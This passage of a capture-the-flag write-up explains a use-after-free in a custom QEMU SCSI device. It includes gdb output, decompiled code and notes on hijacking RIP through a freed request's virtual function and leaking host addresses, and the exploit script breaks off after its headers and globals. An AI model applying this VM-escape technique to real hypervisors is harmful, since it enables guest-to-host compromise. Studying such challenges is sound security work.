 ```
   0x563e23bd09e6 <scsi_req_get_buf+24>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x563e23bd09ea <scsi_req_get_buf+28>:	mov    rdi,rdx
   0x563e23bd09ed <scsi_req_get_buf+31>:	call   rax
   0x563e23bd09ef <scsi_req_get_buf+33>:	leave
   
gdb-peda$ bt
#0  0x0000563e23bd09e2 in scsi_req_get_buf (req=0x7fdfc42d9000) at hw/scsi/scsi-bus.c:742
#1  0x0000563e23bf43cf in ctf_transfer_data (req=0x7fdfc42d9000, len=0x1734) at hw/scsi/ctf.c:106
#2  0x0000563e23bf4925 in ctf_process_reply (opaque=0x563e26f1d6f0) at hw/scsi/ctf.c:212

```

After doing another `ctf_process_reply`, we will meet a SIGSEGV. This is because `ctf_transfer_data(opaque->cur_req, opaque->dma_need);` used our freed chunk as its first parameter.
that means we can control the RIP with this virtual function.  

**ONE thing to notice is that we have to set the register_b before the first `ctf_process_reply`, in case it clear the 0x40 flag**

```C
void __cdecl ctf_process_reply(CTFState *opaque)
{
  if ( opaque->state & 8 && (opaque->register_a << 32) | opaque->register_b && opaque->dma_buf )
  {
    cpu_physical_memory_write_7((opaque->register_a << 32) | opaque->register_b, opaque->dma_buf, opaque->dma_buf_len);
    opaque->state ^= 8u;
    free(opaque->dma_buf);
    opaque->dma_buf = 0LL;
    opaque->dma_buf_len = 0;
  }
  else if ( opaque->state & 0x40 )
  {
    ctf_transfer_data(opaque->cur_req, opaque->dma_need);
    opaque->state ^= 0x40u;
  }
}
```

Leak the cur_req value with bruteforcing. This is because the userland address is different from the host address. **We need to use the host address while setting our gadgets.**



# Full Script
```
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include<sys/io.h>

#define PAGE_SHIFT  12
#define PAGE_SIZE   (1 << PAGE_SHIFT)
#define PFN_PRESENT (1ull << 63)
#define PFN_PFN     ((1ull << 55) - 1)

char *userbuf;
uint64_t phy_userbuf;
unsigned char* mmio_mem;
```